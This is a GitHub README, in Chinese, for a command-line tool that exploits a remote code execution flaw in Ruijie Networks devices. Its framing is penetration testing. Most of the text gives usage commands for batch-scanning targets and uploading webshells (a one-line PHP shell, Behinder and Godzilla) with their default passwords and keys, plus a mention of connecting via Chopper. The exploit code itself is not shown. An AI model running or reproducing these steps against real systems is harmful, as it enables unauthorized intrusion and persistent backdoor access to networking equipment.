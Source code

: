 # RuijieRCE
#Tools
Ruijie Networks RCE漏洞检测工具，为方便渗透测试使用，可以批量检测，也会生成历史记录。同时也为防止他人恶意使用，可自定义GET参数密码，该密码由sha256加密，难以破解。同时也可以上传冰蝎马或者哥斯拉马。批量检测支持并发。



## 参数
```bash
Usage of ./RuijieRCE:
  -f string
    	导入.txt文件批量扫描
  -k string
    	写入shell密钥，一句话马默认为cmd，哥斯拉马默认为key，冰蝎马没有密钥
  -n string
    	写入shell默认一句话马🐎，B冰蝎马，G哥斯拉马
  -p string
    	写入shell密码，一句话马默认为cmd，哥斯拉马默认为pass，冰蝎马默认为rebeyond
  -u string
    	目标URL
```

## 使用
检测到漏洞后生成随机数.php文件执行命令，也可以上菜刀。
![](./cknife.png)

### 上传一句话木马
GET密码：cmd
POST密码：cmd
```bash
./RuijieRCE -u http://127.0.0.1:4430
```

#### 设置密码
-n参数为POST密码，-p参数为GET密码
这两个参数缺省时均为cmd，可以只设置一个或者同时都设置
```bash
./RuijieRCE -u http://127.0.0.1:4430 -n asd -p zxc
```

### 上传冰蝎马
默认密钥为rebeyond，也可以使用-p参数修改
```
./RuijieRCE -u http://127.0.0.1:4430 -n B -p rebeyond
```

### 上传哥斯拉马
哥斯拉加密器使用BASE64，默认密码为pass，密钥为key
```
./RuijieRCE -u http://127.0.0.1:4430 -n G -p pass -k key
```

### 批量测试
批量测试时也可以设置上传冰蝎马、哥斯拉马以及自定义密码
```bash
./RuijieRCE -f url.txt
```
